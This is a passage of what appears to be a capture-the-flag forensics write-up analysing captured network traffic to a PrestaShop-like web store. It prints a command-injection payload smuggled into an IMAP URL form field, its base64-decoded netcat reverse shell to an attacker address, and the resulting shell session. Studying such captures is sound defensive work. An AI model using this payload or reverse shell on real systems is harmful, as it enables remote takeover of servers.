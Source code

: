 
Looking through the `pcap` in `wireshark`, I’ll find a few interesting tcp
streams. The most important is 20, where the attacker is visiting
`www.pwnhats.htb` and sends a post to login with the password “GetYouAH4t!”.
I’ll add that to my password list.

Stream 25 is also interesting. It’s another POST request. One of the items in
the POST is this:

    
    
    Content-Disposition: form-data; name="PS_SAV_IMAP_URL"
    
    x -oProxyCommand=`echo$IFS$()bWtmaWZvIC90bXAvb3NmaWZ0bTsgbmMgMTAuMC4yLjE5IDQ0NDQgMDwvdG1wL29zZmlmdG0gfCAvYmluL3NoID4vdG1wL29zZmlmdG0gMj4mMTsgcm0gL3RtcC9vc2ZpZnRt|base64$IFS$()-d|bash`}
    --_Part_913_1903200859_125024680
    Content-Disposition: form-data; name="PS_SAV_IMAP_PORT"
    
    143
    

It’s hard to know for sure what exploit this is targeting, but the
`oProxyCommand` contains a string that looks obviously malicious:

    
    
    `echo$IFS$()bWtmaWZvIC90bXAvb3NmaWZ0bTsgbmMgMTAuMC4yLjE5IDQ0NDQgMDwvdG1wL29zZmlmdG0gfCAvYmluL3NoID4vdG1wL29zZmlmdG0gMj4mMTsgcm0gL3RtcC9vc2ZpZnRt|base64$IFS$()-d|bash`
    

It’s in backticks, which means the shell will execute this, and it `echo` a
base64 string into `base64 -d` and then into `bash`. That string decodes to a
standard reverse shell:

    
    
    mkfifo /tmp/osfiftm; nc 10.0.2.19 4444 0</tmp/osfiftm | /bin/sh >/tmp/osfiftm 2>&1; rm /tmp/osfiftm
    

Sure enough, stream 26 is the webserver connecting to the attacker on 4444,
and running commands:

    
    
    ls
    ajax-tab.php
    ajax.php
    ajax_products_list.php
    autoupgrade
    backup.php
    backups
    bootstrap.php
    cron_currency_rates.php
    displayImage.php
    drawer.php
    export
    favicon.ico
    filemanager
    footer.inc.php
    functions.php
    get-file-admin.php
    grider.php
    header.inc.php
    import
    index.php
    init.php
    pdf.php
    public
    robots.txt
    searchcron.php
    themes
    webpack.config.js
    cd /tmp